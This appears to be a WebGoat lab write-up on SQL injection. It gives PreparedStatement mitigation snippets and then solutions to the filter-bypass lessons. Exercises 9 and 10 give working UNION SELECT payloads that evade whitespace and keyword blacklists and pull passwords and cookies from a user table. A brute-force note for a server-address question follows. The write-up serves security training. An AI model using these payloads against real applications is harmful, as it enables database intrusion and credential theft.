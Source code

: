 
## Mitigation
### Contruction for defense against SqlInjectionAdvanced

5. Try it! Writing safe code

Connection conn= DriverManager.`getConnection`(_);
`PreparedStatement ps`= conn.`prepareStatement`("SELECT status FROM users WHERE name=`?` AND mail= `?`");
`ps.setString(1, "users")`;
`ps.setString(2, "mail")`;


6. Try it! Writing safe code

```
try {  
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
     ps.setString(1, "admin");  
     ps.executeUpdate();  
} catch (Exception e) {  
     System.out.println("Drop!");  
}
```

9. Input validation alone is not enough!!!

Bypass whitespace filter by comment /**/ and using 'null' to brute column of the database because if you only use the previous name of the database, it won't allow because of missing column names.
```
'/**/union/**/select/**/userid,user_name,password,cookie,null,null,null/**/from/**/user_system_data--
```

refs: https://portswigger.net/support/sql-injection-bypassing-common-filters

10. Input validation alone is not enough!!!
Filter improve blacklists.
```
'union/**/selselectect/**/userid,user_name,password,cookie,null,null,null/**/frfromom/**/user_system_data--
```
 
12. List of servers

Brute force by running from 0.130.219.202 to 255.130.219.202 to get the answer.

Ip: 104.130.219.202